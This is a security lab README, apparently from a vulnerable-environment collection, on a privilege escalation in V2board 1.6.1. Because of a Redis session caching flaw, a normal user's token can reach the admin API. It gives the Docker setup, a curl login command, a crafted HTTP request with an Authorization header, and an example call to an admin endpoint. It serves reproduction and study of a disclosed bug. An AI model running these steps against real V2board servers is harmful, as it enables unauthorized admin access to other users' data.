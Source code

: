 # V2board 1.6.1 Privilege Escalation

V2board is a multiple proxy protocol manage panel application interface. In the version of 1.6.1, it is introduced a redis cache mechanism to save the user session. 

Since there is no distinction between administrator and normal user in the cache layer, resulting in normal users being able to use their token to access the administrator interface.

References:

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## Vulnerable Environment

Execute following command to start the V2board 1.6.1:

```
docker-compose up -d
```

After the server is started, browse the `http://localhost:8080` to see the default login page of the V2board.

## Exploit

First of all, you have to register a normal user.

Then, replace the email and password with your own data and login:

```
curl -i -s -k -XPOST --data-binary "email=example%40example.com&password=a123123123" http://localhost:8080/api/v1/passport/auth/login
```

The server will response a "auth_data" to you:

![](1.png)

Copy it and end the following request with your "auth_data":

```
GET /api/v1/user/info HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Authorization: ZXhhbXBsZUBleGFtcGxlLmNvbTokMnkkMTAkMVJpUFplR2RnZlFPSVRyWEM4dW0udW5QZVZNTGs3RlFFbkFVVnBwbEhmTlMyczdQaEpTa3E=
Cache-Control: max-age=0


```

![](2.png)

This step is to let server save your authorization to Redis cache.

Finally, you are able to simply call all admin API with this authorization, for example `http://your-ip:8080/api/v1/admin/user/fetch`:

![](3.png)
